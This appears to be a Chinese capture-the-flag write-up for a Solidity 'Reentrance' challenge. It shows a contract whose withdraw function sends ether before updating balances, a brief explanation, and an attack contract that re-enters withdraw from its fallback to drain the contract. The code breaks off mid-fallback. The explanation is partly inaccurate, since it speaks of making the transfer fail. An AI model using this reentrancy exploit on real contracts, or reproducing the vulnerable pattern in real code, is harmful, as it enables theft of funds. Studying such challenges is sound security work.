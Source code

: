 - 源码：要求拿走合约中的所有钱

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```

- 解题关键在withdraw函数，该方法要求余额大于所取走的钱数，但在if判断中是先进行call转账再进行amount余额减少，针对这个地方我们可以使call（）转账失败从而触发fallback回调函数，在回退函数中我们先给合约捐款使其有余额后，调用withdraw函数并触发fallback回调函数，但余额还未删减，就继续require直到合约中钱被去玩。
- 攻击合约：
    
    ```solidity
    contract attack{
        Reentrance re;
        address  payable owner;
        uint public balance;
        uint money;
        constructor(address payable _addr)public  {
            re = Reentrance(_addr);
            owner = msg.sender;
        }
        function donate()public payable{
            money = msg.value;
            re.donate{value:money}(address(this));
        }
        function withdraw()public{
            re.withdraw(money);
        }
        function qu()public{
            owner.transfer(address(this).balance);
        }
        fallback()external payable{
            balance = address(re).balance;
            if (balance>0){
    